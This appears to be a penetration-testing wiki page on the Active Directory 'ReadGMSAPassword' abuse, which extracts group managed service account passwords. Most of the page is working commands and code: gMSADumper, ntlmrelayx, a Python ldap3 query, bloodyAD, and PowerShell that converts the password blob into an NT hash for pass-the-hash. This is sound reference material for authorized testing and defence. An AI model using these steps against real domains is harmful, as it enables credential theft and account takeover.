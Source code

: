 # ReadGMSAPassword

This abuse stands out a bit from other abuse cases. It can be carried out when controlling an object that has enough permissions listed in the target gMSA account's `msDS-GroupMSAMembership` attribute's DACL. Usually, these objects are principals that were configured to be explictly allowed to use the gMSA account.

The attacker can then read the gMSA (group managed service accounts) password of the account if those requirements are met.

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, [gMSADumper](https://github.com/micahvandeusen/gMSADumper) (Python) can be used to read and decode gMSA passwords. It supports cleartext NTLM, pass-the-hash and Kerberoas authentications.

```bash
gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
```



**Alternative #1**: Impacket's [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) tool can be used to read and decode gMSA passwords. :warning: Some tests showed ntlmrelayx missed entries gMSADumper didn't.

```bash
ntlmrelayx.py -t ldaps://10.0.0.5 -debug --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs 
```

{% hint style="success" %}
In order to easily fake a relayed authentication, once the relay servers are up and running, the tester can browse [http://127.0.0.1/](http://127.0.0.1/) in order to trigger a basic authentication that will then be relayed by ntlmrelayx, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96).
{% endhint %}

**Alternative #2**: The `msDS-ManagedPassword` attribute can also be manually obtained by running the following Python script. The [following code](https://github.com/SecureAuthCorp/impacket/blob/3f3002e1c1dd78a5ee6100d6824ff7b65bbb92b6/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L672-L702) can then be used to decode the blob.

```python
import ldap3
target_dn = "" # something like 'CN=Target User,OU=Standard Accounts,DC=domain,DC=local'
domain = "domain"
username = "username"
user = "{}\\{}".format(domain, username)
password = "password"
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn, '(&(ObjectClass=msDS-GroupManagedServiceAccount))', search_scope=ldap3.SUBTREE, attributes=['sAMAccountName','msDS-ManagedPassword'])
print(connection.entries)
```

**Alternative #3**: Using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object $TargetObject --attr msDS-ManagedPassword
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems, there are multiple ways to read gMSA passwords.

The first one uses the Active Directory and DSInternals PowerShell modules.

```bash
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

The second one relies on [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#).

```bash
.\GMSAPasswordReader.exe --AccountName 'Target_Account'
```
{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://cube0x0.github.io/Relaying-for-gMSA/" %}
